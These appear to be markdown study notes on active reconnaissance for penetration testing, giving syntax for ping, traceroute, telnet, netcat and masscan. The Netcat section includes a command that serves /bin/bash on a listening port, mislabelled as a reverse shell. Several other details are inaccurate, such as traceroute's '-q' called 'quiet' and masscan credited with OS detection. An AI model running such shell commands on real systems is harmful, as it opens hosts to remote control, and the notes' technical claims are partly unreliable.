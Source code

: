 #### What is it ?
Active reconnaissance in penetration testing involves <mark style="background: #FF5582A6;">direct interaction</mark> with the target system or network to gather information, identify potential vulnerabilities, and assess the security posture. The following are some techniques and associated tools used in active reconnaissance:

1. <mark style="background: #FF5582A6;">Port Scanning</mark>: Tools like Nmap, Masscan, or Nessus can be used to scan target IP addresses and ports to determine open, closed, or filtered ports.

3. <mark style="background: #FF5582A6;">Service Identification</mark>: Once open ports are discovered, tools like Nmap, Netcat, or Bannergrab can be used to identify the services running on those ports.

4. <mark style="background: #FF5582A6;">Banner Grabbing</mark>: Tools like Netcat, Telnet, or Bannergrab can extract information from service banners or headers to gather details about software versions or configurations.

5. <mark style="background: #FF5582A6;">OS Fingerprinting</mark>: Tools like Nmap, p0f, or Xprobe2 can be used to identify the operating system running on the target system by analyzing network responses or packet timings.

6. <mark style="background: #FF5582A6;">Vulnerability Scanning</mark>: Tools like Nessus, OpenVAS, or Qualys can scan the target system or network for known vulnerabilities associated with the OS, services, or applications.

7. <mark style="background: #FF5582A6;">Active Probing</mark>: Tools like Hping, Burp Suite, or Metasploit Framework can be used for active probing by sending crafted packets or requests to gather specific information about the target system's configuration, network infrastructure, or potential vulnerabilities. 

### Ping

<mark style="background: #BBFABBA6;">Ping is a computer network utility that is used to test the reachability of a host on an IP network</mark>. It operates by sending Internet Control Message Protocol <mark style="background: #BBFABBA6;">(ICMP) echo request packets</mark> to the destination host and waiting for <mark style="background: #BBFABBA6;">ICMP echo reply packets</mark>. The time it takes for the echo reply packet to return is called <mark style="background: #BBFABBA6;">the round-trip time (RTT)</mark>.

The ping command can be used to troubleshoot network problems, such as packet loss or high latency. It can also be used to verify that a host is online and reachable.

The syntax for the ping command is as follows:

```bash
ping [options] <destination>
```

Where:

- `<destination>` is the IP address or hostname of the host to ping.
- `-t` Continuously ping destination until interrupted
- `-a` Resolve addresses to hostnames
- `-n` Number of echo requests to send
- `-l` Size of echo request in bytes
- `-f` Set Don't Fragment flag in packet
- `-i` Time to live
- `-v` Verbose output
- `-w` Timeout in milliseconds to wait for each reply

When we don’t get a ping reply back, It is possible that:

- <mark style="background: #FF5582A6;">The destination computer is not responsive; possibly still booting up or turned off, or the OS has crashed.</mark>
- <mark style="background: #FF5582A6;">It is unplugged from the network, or there is a faulty network device across the path.</mark>
- <mark style="background: #FF5582A6;">A firewall is configured to block such packets. The firewall might be running on the system itself or a separate network appliance. MS Windows firewall blocks ping by default.</mark>
- <mark style="background: #FF5582A6;">Our system is unplugged from the network.</mark>

### Traceroute

<mark style="background: #FF5582A6;">Traceroute is a network utility that is used to trace the route that packets take from a source host to a destination host</mark>. It operates by sending Internet Control Message Protocol (ICMP) echo request packets to the destination host with increasing time to live (TTL) values. <mark style="background: #BBFABBA6;">Each router that the packets pass through decrements the TTL value by one</mark>. When the TTL value reaches zero, the router sends an ICMP time exceeded message back to the source host. <mark style="background: #BBFABBA6;">The source host then uses the information in the ICMP time exceeded messages to construct a list of the routers that the packets passed through</mark>.

The syntax for the traceroute command is as follows:

```bash
traceroute [options] <destination>
```

Where:

- `<destination>` is the IP address or hostname of the destination host.
- `-n` Numeric output (no hostnames)
- `-q` Quiet output (no timestamps)
- `-v` Verbose output (show more information)
- `-w` Timeout in seconds to wait for each reply

### Telnet

Telnet is a network protocol that allows a user to communicate with a remote computer. It is a text-based protocol that uses <mark style="background: #FF5582A6;">the Transmission Control Protocol (TCP) to establish a connection between the two computers</mark>. Telnet is often used to troubleshoot network problems, test network services, and access remote computers by hitting specific ports, <mark style="background: #BBFABBA6;">the default port for telnet is 23</mark>.

The syntax for the telnet command is as follows:

```bash
telnet <hostname> <port>
```

Where:

- `<hostname>` is the IP address or hostname of the remote computer.
- `<port>` is the port number of the service that you want to access.

### Netcat

 <mark style="background: #FF5582A6;">Netcat is a versatile tool that can be used for a variety of networking tasks, including port scanning, transferring files, and creating reverse shells</mark>.

In the context of penetration testing, Netcat can be used to:

* <mark style="background: #BBFABBA6;">Scan ports on a target system to identify open ports and services</mark>.
* <mark style="background: #BBFABBA6;">Transfer files between a local system and a remote system</mark>.
* <mark style="background: #BBFABBA6;">Create a reverse shell on a remote system, which can then be used to execute commands and control the system</mark>.

|option|meaning|
|---|---|
|-l|Listen mode|
|-p|Specify the Port number|
|-n|Numeric only; no resolution of hostnames via DNS|
|-v|Verbose output (optional, yet useful to discover any bugs)|
|-vv|Very Verbose (optional)|
|-k|Keep listening after client disconnects|

Notes:

- the option `-p` should appear just before the port number we want to listen on.
- the option `-n` will avoid DNS lookups and warnings.
- port numbers less than 1024 require root privileges to listen on.

The syntax to connect to a remote system using Netcat:

```bash
nc <remote_IP_address> <remote_port>
```

To use Netcat for port scanning, we can use the following command:

```bash
nc -v -n -z <target IP> <port range>
```

For example, to scan ports 1-100 on the target IP address 192.168.1.1, we would use the following command:

```bash
nc -v -n -z 192.168.1.1 1-100
```

To transfer a file from a local system to a remote system, we can use the following command:

```bash
nc -v -n <remote IP> <port> < <local file>
```

For example, to transfer the file `file.txt` from the local system to the remote system at IP address 192.168.1.1 on port 80, we would use the following command:

```bash
nc -v -n 192.168.1.1 80 < file.txt
```

To create a reverse shell on a remote system, we can use the following command:

```bash
nc -v -n -l -p <local port> -e /bin/bash
```

For example, to create a reverse shell on the local system on port 4444, you would use the following command:

```bash
nc -v -n -l -p 4444 -e /bin/bash
```

### Masscan

<mark style="background: #FF5582A6;">Masscan is a high-speed network scanner that can scan large networks in a short amount of time</mark>. It is designed to be used for penetration testing and security auditing. Masscan can scan for open ports, operating systems, and web applications. It can also be used to identify vulnerabilities and exploits.

Here are some examples of how Masscan can be used:

Scan a single IP address for open ports:

```bash
masscan @IP
```

Scan a single IP address for open ports, with verbose output:

```bash
masscan @IP -v
```

Scan a network for open ports and web applications, with a list of specific ports:

```bash
masscan -p80,443,8080 -Pn @IP/24
```